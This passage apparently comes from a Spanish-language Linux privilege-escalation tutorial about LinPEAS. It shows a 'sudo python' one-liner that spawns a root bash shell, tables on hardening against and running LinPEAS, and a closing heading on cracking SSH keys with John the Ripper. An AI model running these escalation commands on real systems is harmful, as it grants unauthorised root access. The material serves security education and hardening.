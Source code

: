 ¡Puedes ejecutar shell como root fácilmente!

```bash
sudo python -c 'import pty; pty.spawn("/bin/bash")'
```

Y luego:

```bash
whoami
```

✅ Resultado: `root`

---

### 🛡️ ¿Cómo se defiende uno de LinPEAS?

| Medida                           | ¿Qué evita?                                    |
| -------------------------------- | ---------------------------------------------- |
| Configurar sudoers correctamente | Evita escaladas por comandos peligrosos        |
| Revisar permisos de archivos     | Evita exposición de archivos sensibles         |
| Actualizar kernel y sudo         | Evita exploits por vulnerabilidades conocidas  |
| Auditar cron jobs                | Evita ejecuciones inseguras o automáticas      |
| Limpiar historial y credenciales | Evita exposición de contraseñas en texto plano |

---

### 📘 Resumen

| Elemento             | Descripción breve                                                  |
| -------------------- | ------------------------------------------------------------------ |
| ¿Qué es?             | Script bash que detecta vectores de escalada de privilegios        |
| ¿Cómo se instala?    | Descarga el `.sh`, sin instalación extra                           |
| ¿Cómo se ejecuta?    | `./linpeas.sh` o subirlo por SCP                                   |
| ¿Qué busca?          | Configuraciones inseguras, binarios peligrosos, archivos sensibles |
| ¿Resultado esperado? | Muestra múltiples caminos para obtener root                        |
| ¿Cómo prevenirlo?    | Mantener buenas prácticas de hardening y configuración de sistema  |

---

[🔼](#índice)

---

## **992. Cracking de llaves SSH privadas con John the Ripper**
